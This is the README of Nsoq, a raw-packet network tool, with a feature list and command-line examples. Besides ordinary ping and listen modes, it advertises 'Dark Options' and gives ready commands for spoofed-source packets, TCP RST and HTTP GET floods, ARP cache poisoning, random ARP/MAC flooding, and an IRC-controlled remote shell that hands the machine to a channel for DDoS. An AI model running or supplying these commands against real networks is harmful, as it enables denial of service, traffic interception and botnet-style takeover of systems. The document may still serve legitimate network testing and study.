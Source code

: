 Nsoq official documentation: See [here.](http://www.nsoq.org)
========================================================================


## About
--------

   Nsoq is a Network Security tool for raw packets manipulation that allows a
   large number of options. Its primary purpose is analyze and test several 
   scenarios of TCP/IP environments, such TCP/UDP packets and low levels 
   ARP/RARP packets.<BR/>
   Nsoq can send packets to any target type (like hostnames, IPs and MAC address)
   like handling many fields/headers like: Source/Destination IP address,
   Source/Destination MAC address, TCP flags, ICMP types, TCP/UDP/ICMP packet
   size, payloads ARP/RARP, etc.

   Nsoq is able to operate into the RSOI mode (Remote System over IRC), where 
   the tool can surrender all control of machine resources to some specific IRC
   channel, also called Hive Mind option.
   
   Nsoq exeutes sistematically many types of network based attacks, like packet
   attacks, MAC/IP Spoofing, DoS/DDoS attacks, ARP Poison, MAC Flooding and
   Web Stress Testing.

<BR/>

## Features
-----------

#### Some white options:
- Sends and checks many ICMP packet types: Echo Request, Mask Reply, Information Request, Source Quench, etc.
- Sends and checks the TCP packet headers: bit SYN, ACK, RST, FIN, PUSH , XMAS e NULL FLAGS.
- Server/Client TCP. Also checks TCP packet headers (tcpdump style).
- Check and sends UDP packets.
- Sends and checks ARP/RARP packets (enlace layer).
- [Listen Modes] Listen ICMP, UDP, TCP (packets or connections) and ARP/RARP.
- Threads handler on all modes.
- Sets packet size for all modes.
- Show a packet dump on listen modes (tcpdump style).
- [RSOI mode] Delivers a remote shell under IRC channels (IRCp protocol).
- FTP handler (I/O bound connections like netcat style).
- Arping mode. Sends ARP replies instead of ICMP ping (bypass ICMP ping).

#### Dark Options:
- [DoS/DDoS Attack] WEB Stress HTTP test.
- [DoS/DDoS Attack] WEB Stress TCP test.
- [DoS/DDoS Attack] WEB Stress UDP test.
- [DoS/DDoS Attack] WEB Stress ICMP test.
- [DoS/DDoS Attack] WEB Stress SYN test.
- [DoS/DDoS Attack] WEB Stress ACK test.
- [HIVE MIND] Surrenders remote control of the machine resources to an IRC channel across a remote shell (RSOI mode).
- MAC e IP spoofing.
- [HIVE MIND] Across of an IRC channel, perform a Distributed Denial Of Service (DDoS) attack.
- [ARP Poisoning Attack] Changes the ARP cache table of network neighbors (CAUTION).
- [MAC Flooding Attack] ARP Flooding with MAC/IP address randomly crafted (CAUTION).

<BR/>

##EXAMPLES
-----------

```
   # nsoq -d hexcodes -Ie
      Sends an ICMP packet (Echo Request) to host "hexcodes".

   # nsoq -lI
      ICMP listen mode. Listen for ICMP packets like PINGs.

   # nsoq -It -d www.hexcodes.org -c
      Sends ICMP packets (Timestamp Request) on continuous mode to server 
      "www.hexcodes.org".

   # nsoq -s 10.1.100.100 -d www.hexcodes.org -u -p 4140
      Sends an empty UDP packet with spoofed source ip "10.1.100.100" to host
      "hexcodes" on port 4140.

   # nsoq -d www.hexcodes.org -u -p 9000 -P 22000 -F 900 -q 20
      Sends only 20 UDP packets to server "www.hexcodes.org" and to port 9000,
      from source port 22000 with flood Delay of 900 miliseconds.

   # nsoq -d 201.1.0.13 -Ie -x 512 -t 50 -z
      Sets Nsoq for send ICMP packets (Echo Request) with size of 512 bytes 
      to host "201.1.0.13" with TTL 50. Don't wait for ICMP Echo ReplY.

   # nsoq -lU -P 59
      Listen UDP packets on local port 59 (all addresses and loopback).

   # nsoq -d hexcodes -Ts -p 6000
      Sends a TCP SYN packet to host "hexcodes" on port 6000.

   # nsoq -lC -P 12345 > file.txt
      Listen TCP connections on local port "12345", and write the received
      data on file 'file.txt'.

   # nsoq -d hexcodes -p 12345 < /etc/hosts
      Connect to host 'hexcodes' reading the file '/etc/hosts. The file
      content will be send over the TCP connection (netcat style).
   
   # nsoq -lT -P 2134 -D
      Listen for TCP packets on local port "2134" and show the packet content.

   # nsoq -d www.hexcodes.org -Tr -p 8080 -n 12 -b
      Sends TCP RST packets to server "www.hexcodes.org" on port 8080, with 12
      threads and super flood mode (HOT).

   # nsoq -H FF:FF:FF:FF:FF:FF
      Sends an ARP REPLY packet to physical Broadcast FF:FF:FF:FF:FF:FF. (The
      source MAC address and the source IP address will be obtained locally 
      by the active interface. The destination IP address will be NULL).

   # nsoq -i eth2 -h 00:BB:AA:CC:BB:AA -H FF:FF:FF:FF:FF:FF -d 10.1.10.1 -A
      Sends an ARP REQUEST packet by the eth2 interface with source MAC 
      00:BB:AA:CC:BB:AA, to destination physical Broadcast FF:FF:FF:FF:FF:FF,
      asking "Who ??" on the network have the IP address "10.1.10.1". The IP
      "10.1.10.1" (if alive) will respond with an ARP REPLY filled with its
      own MAC/IP address pair.

   # nsoq -s 10.2.2.100 -h 00:CC:AA:CC:BB:AA -H FF:FF:FF:FF:FF:FF
      Sends an ARP REPLY packet to destination physical Broadcast 
      FF:FF:FF:FF:FF:FF saying that the source IP address "10.2.2.100" have
      now the MAC address 00:CC:AA:CC:BB:AA. (Caution: This option changes
      the ARP cache table. Possible ARP poisoning attack).

   # nsoq -a 10.1.50.100
      Send an Arp'ing packet to Host "10.1.50.100". If the host hardware is
      alive on network or LAN, by default an ARP REPLY will be returned.
      Otherwise, nothing happens. This option can be used to bypass ICMP
      filters (PING filters).

   # nsoq -f 250000
      Send 250000 ARP REPLY packets (to physical broadcast) with the
      fields (SOURCE MAC, DESTINATION MAC, SOURCE IP and DESTINATION IP
      ADDRESSESS) randomly generated.

   # nsoq -lA -D
      Listen for ARP/RARP packets. Does a listen action for all incoming
      ARP/RARP packets on link layer, and show the packet content.

   # nsoq -N irc.quakenet.org -L Cybers
      Sets the Nsoq to connect on IRC Server "irc.quakenet.org" on channel
      #Cybers. This option puts Nsoq on the RSOI mode. So, the Nsoq 
      will be NO AVAILABLE to be controled by user. Only the users on IRC
      server "irc.quakenet.org" channel #Cybers can do this.

   # nsoq -d 10.0.0.1 -W -n 40
      Sets the Nsoq to "WEB Stress Mode". This option puts Nsoq to send HTTP
      requests (GET method) on super flooding mode to host "10.0.0.1" on port
      80 (WEB HTTP) with 40 threads. This stress test attempts to exhaust the
      services on port 80 (Web Server) and check the target's limit response.
```

<BR/>

## SECURITY
-----------

   Nsoq need superuser privileges (root) for operation and execution. DO NOT
   use the stick bit to allow root privilegies. This is not recommended and
   may allow involuntary or agressive DoS/DDoS attacks. The privileged Nsoq
   use also allows users manipulate the ARP cache table of neighbors on
   network, or put the system over a remote control.

<BR/>

## DISPONIBILITY
----------------

   Nsoq is available to anyone who wants to know, manipulate, or disassembly
   the tool. Nsoq is licensed under GPL and Free Software Foundation.<BR/> 
   A copy of the license accompanies the software.<BR/>
   Licensed under GPL 3 - Copyright (C) Felipe Ecker.
   
   Nsoq can be freely downloaded across of specif packets here: 
   Downloads: [http://www.nsoq.org](http://www.nsoq.org)
